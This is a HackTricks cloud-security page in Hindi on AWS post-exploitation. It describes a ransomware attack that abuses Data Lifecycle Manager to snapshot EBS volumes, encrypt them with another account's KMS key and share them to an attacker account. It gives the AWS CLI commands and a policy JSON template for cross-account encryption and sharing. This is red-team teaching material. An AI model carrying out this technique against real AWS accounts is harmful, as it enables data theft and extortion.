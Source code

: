 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

एक रैनसमवेयर हमला तब किया जा सकता है जब जितने संभव हो सके EBS वॉल्यूम को एन्क्रिप्ट किया जाए और फिर वर्तमान EC2 इंस्टेंस, EBS वॉल्यूम और स्नैपशॉट को मिटा दिया जाए। इस दुर्भावनापूर्ण गतिविधि को स्वचालित करने के लिए, कोई Amazon DLM का उपयोग कर सकता है, स्नैपशॉट को एक अन्य AWS खाते से KMS कुंजी के साथ एन्क्रिप्ट करके और एन्क्रिप्टेड स्नैपशॉट को एक अलग खाते में स्थानांतरित करके। वैकल्पिक रूप से, वे बिना एन्क्रिप्शन के स्नैपशॉट को एक ऐसे खाते में स्थानांतरित कर सकते हैं जिसे वे प्रबंधित करते हैं और फिर वहां उन्हें एन्क्रिप्ट कर सकते हैं। हालांकि मौजूदा EBS वॉल्यूम या स्नैपशॉट को सीधे एन्क्रिप्ट करना सीधा नहीं है, लेकिन एक नए वॉल्यूम या स्नैपशॉट बनाकर ऐसा करना संभव है।

सबसे पहले, कोई वॉल्यूम पर जानकारी इकट्ठा करने के लिए एक कमांड का उपयोग करेगा, जैसे कि इंस्टेंस ID, वॉल्यूम ID, एन्क्रिप्शन स्थिति, अटैचमेंट स्थिति, और वॉल्यूम प्रकार।

`aws ec2 describe-volumes`

दूसरे, कोई जीवनचक्र नीति बनाएगा। यह कमांड DLM API का उपयोग करके एक जीवनचक्र नीति स्थापित करता है जो निर्दिष्ट वॉल्यूम के दैनिक स्नैपशॉट को एक निर्धारित समय पर स्वचालित रूप से लेता है। यह स्नैपशॉट पर विशिष्ट टैग भी लागू करता है और वॉल्यूम से स्नैपशॉट पर टैग की प्रतिलिपि बनाता है। policyDetails.json फ़ाइल में जीवनचक्र नीति के विवरण शामिल होते हैं, जैसे कि लक्षित टैग, कार्यक्रम, एन्क्रिप्शन के लिए वैकल्पिक KMS कुंजी का ARN, और स्नैपशॉट साझा करने के लिए लक्षित खाता, जिसे पीड़ित के CloudTrail लॉग में रिकॉर्ड किया जाएगा।
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
नीति दस्तावेज़ के लिए एक टेम्पलेट यहाँ देखा जा सकता है:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
